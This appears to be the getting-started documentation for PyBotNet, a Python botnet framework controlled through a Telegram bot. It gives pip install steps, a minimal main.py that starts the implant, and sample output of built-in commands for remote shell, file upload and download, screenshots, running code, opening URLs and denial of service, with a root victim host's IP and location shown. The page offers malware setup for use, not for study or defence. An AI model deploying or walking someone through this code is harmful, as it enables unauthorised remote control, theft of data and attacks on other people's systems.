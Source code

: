 
### Install PyBotNet

```console
pip3 install pybotnet -U --pre
```

!!! note
    Currently version 2 of the PyBotNet is pre-release

    `--pre`: 
        Include pre-release and development versions. By default, pip only finds stable versions.

    `-U`: make sure to upgrade framework to latest version.

---

#### The simplest PyBotNet file could look like this:


```py title="main.py"

from pybotnet import BotNet, TelegramEngine


telegram_engine = TelegramEngine(token=TELEGRAM_TOKEN, admin_chat_id=ADMIN_CHAT_ID) #(1)

botnet = BotNet(telegram_engine) # (2)
botnet.run()
```

1. create engine: Engines transfer messages between admin and botnet
2. create BotNet instance


!!! note
    * `TELEGRAM_TOKEN`: You can use telegram `@botfather` to Create new telegram API Bot and get your `TELEGRAM_TOKEN` 
    * `ADMIN_CHAT_ID`: Get it from @userinfobot telegram bot
    * PyBotNet include default scripts, like: `/shell`, `/put_file`, `/get_file`, `/screenshot`, `/who`, ...,
     you can send `/help` to your telegram bot and see more detail..

#### Run code:

```console 

python3 main.py
```

#### telegram engine

open telegram and send `/who` to your bot; If you have done the steps correctly, you recive message like this:

```
scripts_name:
    echo
    who
    shell
    screenshot
    put_file
    get_file
    runcode
    openurl
    dos
    schedule

mac_addres: 228362405364
os: Linux
global_ip: 5.10.30.35
country: Iran, Islamic Republic of
bot_name: no_name
local_ip: {'192.168.23.1'}
host_name: {'system_name'}
system_user: root
up_time: 0:00:01
current_route: /
pid: 148352
cpu_count: 8
pybotnet_version: 2.0.8b0
from cache: True
```


you can send `/help` to see help page, or send `/help <script_name>` to recive more help about specific script.

for example send `/help screenshot`, You will receive:

```
NAME:
screenshot

DESCRIPTION:
get screen shot
    * `[mac-address] /screenshot`
    or
    * `/screenshot`

    example command: 
        * `94945035671481 /screenshot`
        * `/screenshot` 

    return: img or img-download-link
    

script_version: 0.0.1
default_script: True

___________________________
scripts_name: ['echo', 'who', 'shell', 'screenshot', 'put_file', 'get_file', 'runcode', 'openurl', 'dos', 'schedule']
mac_addres: 228362405364
os: Linux
global_ip: 5.10.30.35
country: Iran, Islamic Republic of
bot_name: no_name
use_proxy: False
```

in top of message you see script name, description, syntax and examples.

for run screenshot script you have two choice:

* Run the script on all clients that are listening to Telegram bot (for now we have one!)
* Run script on one specific system

for run script on all client send `/screenshot`.

bot if you need get screen shot on specific system you need send `[mac_addres] /screenshot` for our case: `228362405364 /screenshot`

in some case like `/shell` you need to run it just for one system.
